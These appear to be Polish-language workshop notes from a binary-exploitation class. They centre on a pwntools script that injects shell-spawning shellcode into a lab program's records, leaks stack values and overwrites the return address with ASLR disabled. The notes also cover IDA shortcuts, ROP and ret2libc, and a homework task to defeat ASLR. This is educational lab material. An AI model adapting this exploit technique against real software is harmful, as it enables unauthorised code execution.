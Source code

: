 
Na warsztatach było trochę powtórki asm/re (można przejrzeć wykłady z http://re.disconnect3d.pl/), no i skończyliśmy eksploita z lab1, dla wyłączonego ASLR ([jak wyłączyć ASLR](http://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization)):

```python
from pwn import *
 
context(arch='i386',os='linux')
shellcode = asm(shellcraft.sh())
# zamiast asm('nop') moze byc rownie dobrze 'a'
# (chcemy zeby dlugosc shellcode byla rowna 6*12)
shellcode += asm('nop') * (6*12 - len(shellcode))

buf_addr = 0xffffd63c # bez aslr mozna zaharkodowac adres...
 
p = process('./easy')
print p.proc.pid
pause()
 
print p.recvuntil('Choose: ')
 
def leak(index):
    p.sendline('3')
    p.recvuntil('view:')
    p.sendline(str(index))
    p.recvuntil('Product ID: ')
 
    leak_id = p.recvuntil(', Product Code: ')[:-16]
    leak_code = p.recvuntil('There are ').replace('There are ','')
    leak = leak_code + p32(int(leak_id) & 0xffffffff)
 
    print "[+]Leak: "+ leak.encode('hex')
    return leak
 
leak(-3)
 
def add_product(prod_id, prod_code):
    p.sendline('1') # add record
    print p.recvuntil('Enter product ID: ')
    p.sendline(prod_id)
    print p.recvuntil('Enter product code: ')
    p.sendline(prod_code)
 
for i in range(6):
    # struktura produktu
    #      8 B     |     4 B
    # product_code | product_id
    s = shellcode[i*12:i*12+12]
    product_code = s[:8]
    product_id = str(u32(s[8:]))
    add_product(product_id, product_code)

# Zadziala bez ASLR.
# Z ASLR adres bufora musimy pobrac poprzez funkcje `leak`
# (gdyz jest on na stosie, a leak wykorzystuje 'View record' z programu)
# (co pozwala nam na czytanie niektorych wartosci ze stosu, a adres bufora
# jest rowniez na stosie)
new_eip = str(buf_addr)
add_product(new_eip, 'abcdqwer')

p.sendline('4') # Quit program
# breakpoint na instrukcje `ret` w main -> b *0x08049235

p.interactive()
```

Trochę debugowaliśmy powyższy skrypt, np. żeby wstrzelić odpowiednio shellcode'a.

W tym celu podpinaliśmy się przez gdb zdalnie do procesu (`sudo gdb <binarka>; attach <pid>; <ewentualne breakpointy>; continue`).

### Powtórka skrótów Ida Pro (częściowo też Hopper):
- Typy wyświetlane czasem przez Idę: BYTE (1B), WORD (2B), DWORD (4B), QWORD (8B)
- Klawisz 'n' na symbolu - refaktoryzacja jego nazwy
- Klawisz 'x' na symbolu - szukanie xrefów
- Klawisz 'y' na symbolu - zmiana jego typu (dla zdekompilowanego kodu)
- Klawisz spacji będąc w kodzie asm - przełączanie się między widokiem grafu, a po prostu instrukcji (czasami graf nie działa)

### Omówione rzeczy:
- ROP - tu można poczytać przykład https://0xabe.io/ctf/exploit/2016/03/07/Boston-Key-Party-pwn-Simple-Calc.html
- ret2libc
- GOT, PLT
- poznawanie wersji libc na podstawie adresów

### Kolejne warsztaty - za 2 tygodnie - za tydzień jest CodeEurope.

### Zadanie domowe
- przerobić eksploita, tak, żeby działał z włączonym ASLR (hint: trzeba zrobić memory leak'a; adres bufora znajduje się gdzieś na stosie, bo został przekazany do funkcji main).
- zcrackować http://re.disconnect3d.pl/easy_crackme bez dekompilacji kodu i spróbować ręcznie odtworzyć kod programu w C
